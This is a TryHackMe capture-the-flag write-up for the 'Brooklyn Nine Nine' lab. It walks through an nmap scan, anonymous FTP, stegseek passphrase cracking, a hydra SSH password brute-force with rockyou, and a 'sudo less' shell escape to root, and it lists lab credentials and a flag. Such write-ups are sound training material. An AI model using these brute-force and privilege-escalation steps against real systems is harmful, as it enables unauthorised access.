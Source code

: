 Brooklyn_nine_nine | THM | Vishakhan Pillai | 26/05/2025

```bash
export IP=10.10.123.189
```
## nmap

```
# Nmap 7.95 scan initiated Mon May 26 21:48:38 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap/initial -vv 10.10.123.189
Nmap scan report for 10.10.123.189
Host is up, received reset ttl 60 (0.21s latency).
Scanned at 2025-05-26 21:48:39 IST for 16s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.58.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 26 21:48:55 2025 -- 1 IP address (1 host up) scanned in 16.93 seconds

```

## FTP Anonymous Login Enumeration
- FTP anonymous login found
- found note_to_jake.txt 

``` bash
cat note_to_jake.txt 

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine


``` 

## HTTP Site Enumeration
- Examined source code to find this particular comment
```html
<!-- Have you ever heard of steganography? -->
```
- downloading the image in the website to analyse it further

## Analysing the downloaded image

- cracked the image password using stegseek

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt steg_output.txt
```
```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "steg_output.txt".
```

- Found a password for user name holt
```
fluffydog12@ninenine
```

## Initial Access
- Possible password for SSH service found earlier for the user holt
```bash
ssh holt@10.10.123.189
```
user.txt found at /home/holt


## Privilege Escalation

### Enumerating the User Holt
-
- searching for SUID binaries - no results
- searching for commands that can be run with sudo

```bash
sudo -l
```
```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

### Enumerating the User Jake
- Possible jake user found
- cracking jake's ssh password using hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.123.189
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.123.189:22/
[22][ssh] host: 10.10.123.189   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-26 22:30:58

```
- searching for commands that can be run with sudo

```bash
sudo -l
```
```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

exploiting /use/bin/less (using GTFObins)
```bash
sudo less /etc/profile
!/bin/sh
```

<b>root access achieved</b>


## Flags

-user.txt
```
ee11cbb19052e40b07aac0ca060c23ee
```

- root.txt
```

```
